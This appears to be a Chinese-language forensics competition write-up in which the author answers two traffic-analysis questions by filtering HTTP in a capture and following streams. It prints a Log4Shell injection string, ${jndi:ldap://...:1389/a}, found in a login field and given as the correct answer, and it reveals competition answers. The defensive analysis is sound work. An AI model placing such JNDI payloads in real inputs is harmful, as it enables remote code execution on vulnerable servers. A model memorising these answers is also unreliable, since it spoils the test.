 ```Dart
[单选题]分析IP地址61.238.217.108向AGC服务器10.0.66.184发送的第一个 'GET' 指令，它请求的统一资源定位系统 (Uniform Resource Locator - URL) 是什么? (1分)
A. http://155.137.195.111:8080
 
B. http://www.w3.org/2003/05/soap-envelope
 
C. http://61.238.217.108:8000
 
D. 以上皆非
```

这里都已经开始分析ip和服务器还有get

要么日志 要么流量分析

这里正好存在检材 所以我们就去看看

155.137.195.111:8080

因为是http的读取

所以我们首先过滤http



<img src="https://i-blog.csdnimg.cn/blog_migrate/e17bbc47fbf9441ad39fb377b2b62af1.png" alt="" style="max-height:493px; box-sizing:content-box;" />


然后进行追踪流 查看第一个就是了



<img src="https://i-blog.csdnimg.cn/blog_migrate/bd9888875d6b938f4e364588ffabc892.png" alt="" style="max-height:403px; box-sizing:content-box;" />


## 22  查看参数

```Dart
[单选题]IP地址61.238.217.108曾经向AGC服务器10.0.66.184发送 'POST' 指令，它在 'HTML Form' 项目的 'uname' 栏所输入的字符串是什么? (1分)
 
A. root
 
B. ${jndi:ldap://61.238.217.108:1389/a}
 
C. application/x-www-form-urlencoded
 
D. password
```

简单 找到post



<img src="https://i-blog.csdnimg.cn/blog_migrate/fbb014a62320504df43c52259325a3a2.png" alt="" style="max-height:477px; box-sizing:content-box;" />


选B
